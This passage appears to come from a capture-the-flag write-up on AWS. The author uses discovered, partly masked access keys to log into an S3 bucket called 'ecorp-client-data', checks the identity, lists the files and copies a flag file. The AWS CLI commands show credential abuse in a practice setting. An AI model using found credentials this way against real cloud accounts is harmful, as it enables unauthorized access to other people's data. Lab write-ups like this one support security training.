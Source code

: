 Aha, some new credentials to try for an S3 bucket called `ecorp-client-data`! I love this game.

### Privilige Escalation

Signing into the new account…

```
[root@ip-172-31-33-36 practice_files]# aws configure --profile "ecorpClientData"
AWS Access Key ID [None]: AKIA****DT72VT
AWS Secret Access Key [None]: weAlW**********o6DByf8K3+CN
Default region name [None]:
Default output format [None]:
[root@ip-172-31-33-36 practice_files]# aws sts get-caller-identity --profile "ecorpClientData"
{
    "UserId": "AIDARQVIRZ4UKO53XSHRH",
    "Account": "104506445608",
    "Arn": "arn:aws:iam::104506445608:user/dev-test"
}
[root@ip-172-31-33-36 practice_files]# aws s3 ls ecorp-client-data --profile "ecorpClientData"
2023-06-12 20:32:59       3473 ecorp_dr_logistics.csv
2023-06-12 20:33:00         32 flag.txt
2023-06-12 15:04:25          7 test.csv
[root@ip-172-31-33-36 practice_files]# aws s3 cp s3://ecorp-client-data/flag.txt - --profile "ecorpClientData"
```
Not showing the flag text, but there it is!